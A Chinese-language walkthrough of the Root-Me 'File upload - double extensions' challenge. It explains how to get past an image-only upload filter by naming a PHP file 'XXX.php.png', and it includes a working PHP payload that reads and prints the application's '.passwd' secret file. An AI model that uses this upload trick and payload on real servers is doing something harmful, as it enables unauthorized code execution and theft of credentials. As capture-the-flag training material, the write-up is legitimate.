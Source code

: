 Root-Me [File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)
===

看起來似一個 icon 的存放空間，但有上傳功能。  
並且題目有給予提示：
```
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.
```

## 解題關鍵
1. PHP 特性

## 解題方法
上傳功能有明文規定，僅能上傳 `.gif`、`.jpeg`、`.png` 三種格式，當然還是要挑戰一下，上傳個非規定的檔名，得到以下回復。  

```
Wrong file extension !
```

看來勢必如題目名稱所說的 `double extensions` 方法來進行解題，首先建構一個記事本，檔案內容如下：  

```php
<?php 
	$myfile = fopen("../../../.passwd", "r") or die("Unable to open file!");
	while(!feof($myfile)) {
		echo fgets($myfile) . "<br>";
	}
	fclose($myfile);	
?>
```

隨後存成 `XXX.php.png`，這邊要注意副檔名除了 `png` 之外，還需要加上 `php`，便會被 PHP 當作是程式碼執行。

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)